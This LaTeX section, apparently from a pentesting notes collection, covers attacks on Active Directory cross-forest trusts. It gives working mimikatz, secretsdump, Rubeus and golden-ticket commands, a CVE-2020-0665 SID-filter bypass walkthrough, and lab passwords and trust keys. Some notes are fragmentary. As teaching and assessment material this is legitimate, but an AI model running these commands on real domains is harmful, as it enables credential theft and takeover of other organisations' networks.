\section{Cross-Forest trust Attack}

\subsection{Admin Password Re-Use  and Group Membership}
In a situation of a  bidirectional forest trust managed by admins from the same
company. When the Domain A is controlled and a cleartext passwords or NT hashes
for either the built-in Administrator account or an account that is part of the
Enterprise Admins or Domain Admins group in Domain A is available and Domain B
has a highly privileged account with the same name. It is worth checking for
password reuse across the two forests in this situation. 

For example, Domain A would have a user named \verb+adm_bob.smith+ in the
Domain Admins group, and Domain B had a user named \verb+bsmith_admin+.
Sometimes, the user would be using the same password in the two domains, and
owning Domain A instantly gave me full admin rights to Domain B.

Somtimes users or admins from Domain A as members of a group in Domain B. Only
\emph{Domain Local Groups} allow security principals from outside its forest.
Somtimes a Domain Admin or Enterprise Admin from Domain A as a member of the
built-in Administrators group in Domain B in a bidirectional forest trust
relationship. Taking over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

\verb+Get-DomainForeignGroupMember+~\ref{tool:powerview:enum} allow to
enumerate groups with users that do not belong to the domain, also known as
foreign group membership. 

\subsection{Cross-Forest Kerberoasting}

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed
across trusts, depending on the trust direction. In a domain with either an
inbound or bidirectional domain/forest trust, various attacks to gain a
foothold. Sometimes privilege scalation is not possible in the current domain,
but instead it is possible to obtain a Kerberos ticket and crack a hash for an
administrative user in another domain that has Domain/Enterprise Admin
privileges in both domains.

\subsubsection{Windows}
use of the \verb+-SPN+ and \verb+-Domain+ set to the trusting domain on \verb+Get-DomainUser+~\ref{tool:powerview:enum} Then a kerberoast~\ref{kerberos:kerberoasting} can be performed on the trusted domain.
\begin{verbatim}
Get-DomainUser -SPN -Domain <target_domain_fqdn> \
    | select SamAccountName

Get-DomainUser -Domain <target_domain_fqdn> -Identity <user> |select samaccountname,memberof

.\Rubeus.exe kerberoast /domain:<target_domain_fqdn> /user:<user> /nowrap
\end{verbatim}


\subsubsection{Linux}
From time to time, see users or admins from one domain as members of a group in another domain. Since only \emph{Domain Local Groups} allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship.

To enumerate \verb+GeUserSPNs+~\ref{tool:impacket:GetUserSPNs} with
credentials for a user that can authenticate into the other domain and specify
the \verb+-target-domain+. the flag \verb+-request+ (plus \verb+-outputfile+)
provide the TGS.
\begin{verbatim}
GetUserSPNs.py -target-domain <target_domain_fqdn> <target_domain_fqdn>/<user>
GetUserSPNs.py -request -target-domain <target_domain_fqdn> <target_domain_fqdn>/<user> 
\end{verbatim}

\subsection{Trust account attack}
When a One-way (Outbound) trust is established from the Forest-A domain to the Forest-B domain, a trust account named \verb+A$+ is created in Forest-B. It is possible to extract the cleartext credentials and Kerberos keys of this trust account  from any domain controller  in either of the domains using administrative privileges and tools such as Mimikatz. The trust account  created as part of the trust relationship will have the privileges of a regular domain user in the Forest-B.

This allow to get a foothold in trusted domain and perform enum but also attacks (kerberoasting\ldots)
\begin{verbatim}
.\mimikatz.exe "lsadump::trust /patch" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<domain_netbios>\<trust>$" "exit"

secretsdump -just-dc-user '<domain_netbios>$' \
  '<domain>/<user>:<password>'@<dc_fqdn>
\end{verbatim}


\subsection{Unconstrained delegation}

In order to abuse unconstrained delegation across forest trusts,
\begin{itemize}
  \item {\bf TGT delegation} must be allowed on the trust (This behavior is enabled by default)
  \item {\bf Selective Authentication} must NOT be enabled
  \item {\bf Two-way trust} between domains must be configured
\end{itemize}


Force a foreign computer to auth to a owned domain computer set with unconstained
(DC) and listen with \verb+rubeus monitor /interval:5 /nowra+
\begin{verbatim}

petitpotam.py -u <user> -p <passwor> -d <domain> <listener> <target>
.\SpoolSample.exe <source_dc_fqdn> <target_dc_fqdn>

.\Rubeus.exe renew /ticket:doIFF...SNIP... /ptt
\end{verbatim}

with the TGT of the target domain DC it is now possible to perform DCSync

\subsection{Cross Forest SID History Abuse}

SID History can also be abused across a forest trust. If a user is migrated
from one forest to another and SID Filtering is not enabled, it becomes
possible to add a SID from the other forest, and this SID will be added to the
user's token when authenticating across the trust. If the SID of an account
with administrative privileges in Forest A is added to the SID history
attribute of an account in Forest B, assuming they can authenticate across the
forest, then this account will have administrative privileges when accessing
resources in the partner forest.

\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{ad/trust/images/cross-forest-sid-history.png}
  \caption{Cross forest AD trust SIDHistory}
  \label{fig:cross-forest-sid-history}
\end{figure}

In the previous diagram, \verb+Sentinal+ user being migrated
from the \verb+logistics.ad+ domain to the \verb+inlanefreight.ad+ domain in a different
forest. If SID filtering is not enabled when this migration is made and the
user has administrative privileges (or any type of interesting rights such as
ACE entries, access to shares, etc.) in the \verb+logistics.ad+ domain,
then they will retain their administrative rights/access in
\verb+Ilogistics.ad+ while being a member of the new domain,
\verb+inlanefreight.ad+ in the second forest.

\begin{verbatim}
  Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory
  net user sentinal sentinal
  Rubeus createnetonly /program:powershell.exe /show
  Rubeus.exe asktgt /user:sentinal /password:sentinal /domain:inlanefreight.ad /ptt
  Enter-PSSession DC02.logistics.ad
\end{verbatim}

\subsection{Golden Ticket with ExtraSID Attack}
This attack allow to exploit SIDHistory for low privileged migrated users

This attack can be done only if SID history is enabled (External trust or external transitive trust). Need to be \verb+RID > 1000+

Create a golden TGT with ExtraSID impacket tools (smbexec...) should do the referal... 
see~\ref{kerberos:golden-extra-sid-ticket}

smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug

\subsection{Trust ticket - forge inter-realm TGT}

This attack can be done only if SID history is enabled (External trust or external transitive trust). Need to be RID > 1000
See~\ref{kerberos:trust_inter_realm}

\subsection{Exploit acl with external trust golden ticket}
use powersploit ability to use foreign domain for exemple to change user passowrd

\subsection{SID Filter Bypass}
Dirk-jan Mollema discovered a logic flaw in Active Directory, known as \href{https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-0665}{CVE-2020-0665} as mentioned in his \href{https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/}{blog post}, which allows bypassing of the SID filtering mechanism and compromise of hosts in a trusted forest. This flaw was patched in the February 2020.

This vulnerability leverages the intended feature of a Transitive Trust, allowing an attacker to compromise any host or workstation within a trusted forest that has a Two-way Transitive Trust relationship established with the Trusting forest.

Suppose we have two domains, \verb+inlanefreight.ad+ and \verb+logistics.ad+, having established a Two-way transitive trust, the trust relationship extends beyond the immediate connection between these two domains. Specifically, if \verb+inlanefreight.ad+ includes a child domain, such as \verb+child.inlanefreight.ad+, the transitive nature of the trust means that \verb+logistics.ad+ will also extend its trust to the child domain, \verb+child.inlanefreight.ad+.

If a new subdomain is added in \verb+inlanefreight.ad+, then \verb+logistics.ad+ would automatically pick up the SID of new subdomain within 24 hours. Every 24 hours a domain controller will perform the Netlogon call \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/63bab11c-a902-44a2-9cd7-221357788483}{NetrGetForestTrustInformation}, which  returns forest trust information in the \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/08cf1a65-ef7c-46d3-aa4d-558f5135df3d}{LSA\_FOREST\_TRUST\_RECORD} format.

The details of the trust relationship are stored in the Trusted Domain object. \verb+msDS-TrustForestTrustInfo+ is a binary field described in \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/96e44639-eb3e-48c3-a565-1d67cceb3bad}{MS-ADTS} and contains structures for each domain in the forest

We can utilize ftinfo.py from \href{https://github.com/dirkjanm/forest-trust-tools}{forest-trust-tools} to parse data from \verb+msDS-TrustForestTrustInfo+ (set \verb+data+ var with Hex value)

Suppose we have compromised and have full control over the \verb+inlanefreight.ad+ domain, we can change and add an arbitrary SID to the \verb+child.inlanefreight.ad+, which would eventually be propagated to \verb+logistics.ad+.

{\bf Two Domains Trusted by Domain-joined Servers}: 
When querying an individual member server or workstation in a domain about the number of domains it trusts, it typically reports two:
\begin{itemize}
  \item the active directory
  \item the local domain unique to the machine defined in the \verb+SAM+
\end{itemize}

Active Directory does not manage these local domains on member systems, and therefore, it remains unaware of their existence.

CVE-2020-0665 arises from a default configuration that permits an attacker residing in the trusting forest to request delegation of a Ticket Granting Ticket (TGT) for an identity originating from the trusted forest. This vulnerability is commonly recognized as the {\bf Active Directory Elevation of Privilege Vulnerability}.

Requirements:
\begin{itemize}
  \item DC01 and DC02 must have a Two-way Transitive Trust
  \item DC01 must have a Child Domain (subdomain)
  \item DC02 has at least one domain joined member server or workstation
\end{itemize}

Path:
\begin{enumerate}
  \item Fake a new domain in forest A that has the same SID as the local domain on a server in forest B.
  \item Wait for forest B to pick up the new SID and add it to the allowed SIDs
  \item Create an inter-realm ticket that includes the SID of the local administrator account of the server in forest B, and give this to the DC in forest B.
  \item See if forest B gives us a ticket that includes the SID of the server in forest B
  \item Connect to the server in forest B with our service ticket having administrative permissions.
\end{enumerate}


In the event that DC01 in Forest-A is compromised, exploiting CVE-2020-0665 affords the opportunity to exert control over any domain-joined member server located within DC02 in Forest-B. We cannot compromise a Domain Controller in a Trusted forest (Forest-B) because while a Domain Controller has a local domain in SAM, it is only active during recovery mode, which does not satisfy the conditions necessary to pull off this attack.

Simplification of the attack:
\begin{enumerate}
  \item Control over the Child domain (child.inlanefreight.ad) that extends its trust to the Logistics domain by default. (Because of a Two-way Transitive Trust between domains)
  \item Enumerate the local SID of a workstation (SQL02) in the Logistics domain using credentials of the Inlanefreight domain.
  \item Modify the SID of the Child Domain present in the Inlanefreight domain to match with the local SID of a member server (SQL02) in Logistics domain.
  \item The New SID for child domain (child.inlanefreight.ad) propagates back to the Logistics domain allowing us to generate a Golden Ticket for SQL02 with RID 500.
  \item Use the generated ticket to log into SQL02 in logistics.ad domain as the Administrator user for that host.
\end{enumerate}

\subsubsection{Enum}

\href{https://github.com/dirkjanm/forest-trust-tools/blob/master/getlocalsid.py}{getlocalsid.py} from Forest-Trust-Tools

\begin{verbatim}
  # LocalSID for SQL02.logistics.ad
  getlocalsid.py inlanefreight.ad/Administrator@SQL02.logistics.ad SQL02
  #  SID for child.inlanefreight.ad
  lookupsid.py inlanefreight.ad/Administrator:'HTB_@cademy_adm!'@172.16.118.20 | grep "Domain SID"
  # SID for inlanefreight.ad
  lookupsid.py inlanefreight.ad/Administrator:'HTB_@cademy_adm!'@172.16.118.3 | grep "Domain SID"
  # logistics.ad GUID
  Get-ADObject -LDAPFilter '(objectClass=trustedDomain)' | select name,objectguid
  # trust creds
  .\mimikatz.exe "lsadump::dcsync /guid:{<guid>}" "exit"
\end{verbatim}

\begin{verbatim}
# LocalSID of victim server (SQL02.logistics.ad) 
S-1-5-21-2327345182-1863223493-3435513819

# Child Domain SID for child.inlanefreight.ad 
S-1-5-21-3878752286-62540090-653003637

# Domain SID for inlanefreight.ad 
S-1-5-21-2432454459-173448545-3375717855

# Inter-realm tickets with RC4 hash (For Logistics.ad)
c586031a224f252a7c8a31a6d2210cc1

# Inter-realm tickets with AES keys (For Logistics.ad)
179e4ae68e627e1fd4014c87854e7f60b0c807eddbcaf6136ddf9d15a6d87ad8
\end{verbatim}


\subsubsection{Attack trust}
Convert SID to binary:
\begin{verbatim}
input_string = '<victim_local_sid'
prefix = 'S-1-5-21-'
# Split the input string after the constant prefix
components = input_string.split(prefix, 1)
if len(components) > 1:
    remaining_string = components[1]
    split_values = remaining_string.split('-')
    output_list = []
    for i in split_values:
        decimal_number = int(i)
        hexadecimal_value = hex(decimal_number)[2:].zfill(8)
        little = ' '.join([hexadecimal_value[i:i+2] for i in range(len(hexadecimal_value)-2, -2, -2)])
        bytes_list = little.split()
        formatted_bytes = ', '.join([f"0x{byte.upper()}" for byte in bytes_list]) 
        output_list.append(formatted_bytes)
    final_output = ', '.join(output_list)
    print("0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, " + final_output)
\end{verbatim}

edit and run \href{https://github.com/dirkjanm/forest-trust-tools/blob/master/frida_intercept.py}{frida\_intercept} as \verb+SYSTEM+ on \verb+Inlanefreight.ad+
\begin{verbatim}
PsExec.exe -s -i powershell.exe
python frida_intercept.py lsass.exe
\end{verbatim}
keep the \verb+frida_intercept+ script running in the background

verify:
\begin{verbatim}
gettrustinfo.py inlanefreight.ad/logistics.ad@DC01 \
  -hashes :c586031a224f252a7c8a31a6d2210cc1 -target 172.16.118.3
\end{verbatim}

After 24 hours when logistics domain performs the Netlogon call \verb+NetrGetForestTrustInformation+ on inlanefreight domain it'll receive the new SID that is being intercepted by \verb+frida_intercept.py+.

\subsubsection{Attack privesc}

Golden (Rubeus ?)
\begin{verbatim}
kerberos::golden /domain:inlanefreight.ad 
  /sid:S-1-5-21-2432454459-173448545-3375717855 
  /user:user1 
  /target:logistics.ad 
  /service:krbtgt 
  /sids:S-1-5-21-2327345182-1863223493-3435513819-500 
  /aes256:179e4ae68e627e1fd4014c87854e7f60b0c807eddbcaf6136ddf9d15a6d87ad8
\end{verbatim}

Request TGS (Rubeus ?)
\begin{verbatim}
kekeo # tgs::ask 
          /tgt:ticket.kirbi 
          /service:cifs/SQL02.logistics.ad@LOGISTICS.AD 
          /kdc:DC02.logistics.ad /ptt

klist
\end{verbatim}


Access SQL02 in Logistics Domain:
\begin{verbatim}
dir \\SQL02.logistics.ad\c$
\end{verbatim}

\subsection{Mssql trusted links}

Cross-forest MSSQL linked servers facilitate communication and data exchange between SQL Server instances located in different Active Directory forests. This configuration allows SQL Server instances in one forest to access data and resources hosted by SQL Server instances in another forest.

see~\ref{mssql:link} for more details.

\subsection{Foreign group and users and Foreign ACL Principals}

exploit group membership or ACL. See~\ref{ad:trust:foreign-principals} and~\ref{ad:trust:foreign-acl-principals}


\subsection{PAM Trusts}
In the event that we compromise the bastion forest and find that PAM trust is configured but no shadow principals are created, we now have the capability to create one ourselves. And if shadow principals are already configured, we can leverage them to escalate privileges within the user forest.

Add member to shadow principal group:
\begin{verbatim}
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," +
   (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * |
    Select-Object name, DistinguishedName, member,msDS-ShadowPrincipalSid

Get-AdUser <USER> | Select-Object samaccountname, DistinguishedName
Set-ADObject -Identity "<DistinguishedName SHADOW>" -Add @{'member'="<DistinguishedName USER>"}

Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," +
     (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * |
    select Name,member,msDS-ShadowPrincipalSid | fl

type \\DC-EU.eulogistics.corp\c$\Users\Administrator\Desktop\flag.txt
\end{verbatim}


Pssession to the other forest machine: if Kerberos AES encryption is not enabled for the trust, we need to modify the WSMan TrustedHosts property and use Negotiate authentication for PSRemoting. \verb+-Authentication NegotiateWithImplicitCredential+

\begin{verbatim}
Enter-PSSession <FQDN> 
Enter-PSSession <FQDN> -Authentication NegotiateWithImplicitCredential
\end{verbatim}







